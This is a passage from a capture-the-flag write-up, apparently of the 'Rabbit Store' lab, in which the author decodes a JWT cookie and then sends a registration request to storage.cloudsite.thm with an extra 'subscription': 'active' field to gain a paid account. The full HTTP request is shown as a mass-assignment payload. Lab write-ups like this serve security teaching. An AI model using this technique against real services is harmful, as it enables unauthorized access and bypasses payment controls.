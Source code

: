 We can't use the services because we don't have a subscription. In the URL you see `/dashboard/inactive`, if you try to access `/dashboard/active`, you will see this page.

![](/assets/blog/Rabbit-Store/sub.png)

You can now check what is saved in your cookie by copying the cookie to [jwt.io](https://jwt.io/) or some other site to analyze it. The data saved in the cookie includes the subscription type, currently it is set to `inactive`:
```json
{
  "email": "i@mail.com",
  "subscription": "inactive",
  "iat": 1740306601,
  "exp": 1740310201
}
```

My idea was to set the subscription when we are logging in. I simply submitted the `subscription` parameter besides the email and the password.

```
POST /api/register HTTP/1.1
Host: storage.cloudsite.thm
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Content-Type: application/json
Content-Length: 70
Origin: http://storage.cloudsite.thm
Priority: u=0

{
  "email":"new@mail.com",
  "password":"123",
  "subscription": "active"
}
```

The response of the server looks promising, it returns that the registration was successful.
